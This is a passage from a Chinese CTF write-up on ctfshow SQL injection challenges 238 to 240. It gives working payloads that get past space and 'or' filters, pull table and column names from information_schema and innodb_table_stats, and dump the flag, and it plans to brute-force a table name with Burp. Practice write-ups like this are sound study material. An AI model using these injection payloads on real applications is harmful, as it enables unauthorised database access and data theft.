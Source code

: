 过滤了空格，通过测试，`%09`,`%0a`,`%0b`,`%0c`,`%0d`这些都不能用，可能只有get传参能用？绕过效果都不太好`/**/`注释也不能用。反引号括号还挺好用

```sql
# 爆表 banlist,ctfshow_user,flagb
username=111',(select(group_concat(table_name))from(information_schema.tables)where`table_schema`=database()))#&password=2
# 爆字段 id,char,id,username,pass,id,flag,info
username=111',(select(group_concat(column_name))from(information_schema.columns)where`table_schema`=database()))#&password=2
# 爆flag
username=111',(select(group_concat(flag))from`flagb`))#&password=2
```
![238](/medias/show-sql/238.png)

## web 239

过滤了`or`，熟悉。`information`库不能用了，使用`innodb_table_stats`

```sql
# 爆表 banlist,ctfshow_user,flagbb
username=1',(select(group_concat(table_name))from(mysql.innodb_table_stats)where`database_name`=database()))#&password=1
# 爆字段（子查询套娃套不出来了）撞狗运(字段flag)
username=1',(select(group_concat(flag))from(flagbb)))#&password=1
```

## web 240

`or`,`mysql`都过滤了，拿不到表名了。不过，题目交代了表名相关信息`Hint: 表名共9位，flag开头，后五位由a/b组成，如flagabaab，全小写`

用bp抓包爆破一下。准备payload：`username=1',(select(group_concat(flag))from(flagbb)))#&password=1`，表名就是爆破点
